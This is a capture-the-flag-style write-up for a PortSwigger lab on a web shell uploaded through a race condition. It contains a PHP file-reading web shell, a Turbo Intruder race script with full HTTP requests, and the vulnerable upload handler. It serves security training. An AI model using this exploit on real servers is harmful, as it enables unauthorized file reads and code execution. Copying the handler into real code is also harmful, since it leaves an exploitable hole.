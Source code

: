 # Web shell upload via race condition

## Description

[This lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition) contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them. 

## Reproduction and proof of concept

1. Log in and upload an image as your avatar, then go back to your account page.
2. In Burp, go to **Proxy -> HTTP history** and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`.
3. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:

```text
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
    
4. Log in and attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images, even if you try using techniques from previous labs.
5. If you haven't already, add the [Turbo Intruder extension](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) to Burp from the BApp store. If you have it, load it.

![File upload](/_static/images/upload9.png)

6. Right-click on the `POST /my-account/avatar` request that was used to submit the file upload and select **Extensions -> Turbo Intruder -> Send to turbo intruder**. The Turbo Intruder window opens.
7. Copy and paste the following script template into Turbo Intruder's Python editor:

```text
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''
POST /my-account/avatar HTTP/1.1
Host: 0ac700210460078cc0ad547c00b600c7.web-security-academy.net
Cookie: session=qHFu2BuxBt2u0KX9crXaq0ULzU3Ao0nP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------20457027561279133819339941172
Content-Length: 538
Origin: https://0ac700210460078cc0ad547c00b600c7.web-security-academy.net
Referer: https://0ac700210460078cc0ad547c00b600c7.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------20457027561279133819339941172
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------20457027561279133819339941172
Content-Disposition: form-data; name="user"

wiener
-----------------------------20457027561279133819339941172
Content-Disposition: form-data; name="csrf"

p6xSMEVwv95TOguixPFQoQ0DijZwIyod
-----------------------------20457027561279133819339941172--

-----------------------------215000247714924885564136028193
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------215000247714924885564136028193
Content-Disposition: form-data; name="user"

wiener
-----------------------------215000247714924885564136028193
Content-Disposition: form-data; name="csrf"

p6xSMEVwv95TOguixPFQoQ0DijZwIyod
-----------------------------215000247714924885564136028193--
'''

    request2 = '''
GET /files/avatars/exploit.php HTTP/1.1
Host: 0ac700210460078cc0ad547c00b600c7.web-security-academy.net
Cookie: session=qHFu2BuxBt2u0KX9crXaq0ULzU3Ao0nP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ac700210460078cc0ad547c00b600c7.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

```

8. In the script, replace `request1` is the entire `POST /my-account/avatar` request containing the `exploit.php` file. You can copy and paste this from the top of the Turbo Intruder window.
9. `request2` is a `GET` request for fetching your uploaded PHP file. The simplest way to do this is to copy the `GET /files/avatars/<YOUR-IMAGE>` request from your proxy history, then change the filename in the path to `exploit.php`. And add an empty line before the closing `'''` to get non-null responses for the `GET`.
10. At the bottom of the Turbo Intruder window, click **Attack**. This script will submit a single `POST` request to upload your `exploit.php` file, instantly followed by 5 `GET` requests to `/files/avatars/exploit.php`.

![File upload](/_static/images/upload10.png)

11. In the results list, notice that some `GET` requests received a 200 response containing Carlos's secret. These requests hit the server after the PHP file was uploaded, but before it failed validation and was deleted.
12. Submit the secret to solve the lab.

## Exploitability

An attacker will need to log in; upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`; and then enter this secret using the button provided in the lab banner.  

The vulnerable code that introduces this race condition:

```text
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?> 
```

The uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it is possible to execute the file in the small time-window before it is removed.

Due to the generous time window for this race condition, it is possible to solve this lab by manually sending two requests in quick succession using Burp Repeater. The solution described here teaches a practical approach for exploiting similar vulnerabilities in the wild, where the window may only be a few milliseconds. 
